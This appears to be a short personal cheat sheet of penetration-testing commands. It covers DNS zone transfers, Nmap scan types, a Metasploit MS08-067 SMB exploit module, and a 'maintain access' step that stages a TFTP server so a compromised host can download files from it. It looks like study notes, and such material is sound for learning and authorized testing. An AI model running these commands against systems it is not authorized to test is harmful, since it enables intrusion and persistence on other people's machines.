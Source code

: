 DNS zone transfer attack
need to know about the name server

[nslookup]
	set type=ns
	abcd.com
[host -l domain_name name_server]
[host -l abcd.com nameserverABCD.com]

Nmap scan
[nmap -sS ip_addr] - half open scan - stop the threeway handshake
[nmap -sT ip] - full scan - complete threeway handshake
[nmap -sU ip] - udp scan
-sX - xmas scan
-sN - null scan
-sF - fin scan
-sA - tcp ACK scan

NESSAS
vulnerability scan using nessas. 

Metasploit
search ms08_067
use exploit/windows/smb/ms08_067_netapi

maintain access
/tmp will the folder of the TFTP services from where we can send and upload the files.
[atftpd --daemon --port 69 /tmp] - creating TFTP service
[netstat -an | grep 69] - make sure its listening
[tftpd ip get net.exe] - download from this TFTP service